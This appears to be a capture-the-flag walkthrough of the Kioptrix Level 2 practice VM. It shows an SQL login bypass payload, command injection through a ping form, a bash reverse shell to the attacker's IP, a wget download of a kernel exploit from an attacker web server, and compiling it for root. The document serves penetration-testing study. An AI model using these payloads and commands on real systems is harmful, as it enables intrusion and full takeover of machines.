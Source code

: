 # Kioptrix Level 2 walk-through

### Initial portscan
----
- I always start with an initial port scan to see what ports are open.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/nmap_scan.png)

- ipp (internet printing protocol) port 631 was open, with version CUPS 1.1. I quickly searched with searchsploit and tried a quick python exploit but couldnt get it to work. There wasnt a lot of exploits available for that version so i decdided to move onto a more juicier port like 80.
--------
- Looking at the webserver on port 80, i tend to browse the website first, usually before or while i directory bruteforce. 
- At the main page it had a login form, so i had a feeling it was going to be a sql injection attack to gain remote access to the machine.
- Tried out a simple SQL auth bypass before i started diving into a more complicated SQL. Injection i tried `' OR 1=1 -- -` inside the username field, and password can be anything.

![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/Screenshot_2022-02-10_21-35-37.png)
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/SQL.png)

- Now theres a user input field and it says we can ping a machine on a network. So ill try to ping my attacker machine that im using.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/ping-screen.png)
- Looks like we can ping our own machine   
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/ping_test.png)

- So it looks like its using the OS ping command, which we can try to command stack using   `;  &&  ||`  to get a reverse shell
- Testing command stacking with the command `; id`
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/id_test.png)
----------
### Getting a reverse shell
- lets try a reverse shell using bash. `; bash -i >& /dev/tcp/10.0.2.6/443 0>&1`
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/bash_code.png)
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/bash_rev_shell.png)

- wooo! success we have a shell on the machine! we are apache user with low privileges so lets try to get root.
- from the previous image, we can see the kernal is 2.6.9-55. I usually like to look at the privileges the user has and what kernal version is running once i get access to the machine.
- I used searchsploit to search "kernel 2.6"....and there was a ton of exploits that poped up. I decided to see if i can find the OS to help me narrow it down.


- `uname -a` was not much help to determine OS type. So i used the command `cat  /etc/*-release`. 
- Its running CentOS 4.5
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/OS.png)

- Now i can use this info to narrow down my exploit search. From the image below we can see that this exploit has the same OS version and it fits with our kernel version as well. Looks like this might work so lets give it a try.
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/searchsploit.png)
---------
### Compiling exploit
- I tried to compile the exploit on my machine but was getting an error. 
![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/gcc_error.png)
- After doing some research online, it turns out i will need to compile this exploit on the victims machine in order for it to work.
- I spun up a quick webserver using python3. While in the same folder as my exploit use the command `python3 -m http.server  8000` this will create a webserver on port 8000 on our attacker machine. 
- Now hop over to the victims machine and go to /tmp folder. use wget command to download the exploit from your attacker's webserver you just created. `wget http://10.0.2.6:8000/9542.c`
------
### Running exploit
- Now the exploit is downloaded on the victims machine compile it `gcc 9542.c`
- It will produce another file called "a.out"
- Now all we have to do is execute the file and hope it gives us root. `./a.out`

![alt text](https://github.com/pg-cy/CTF-Walkthrough/blob/main/kioptrix_level2/Images/getting_root.png)
- WOOoooooOOOoo! we got root!.
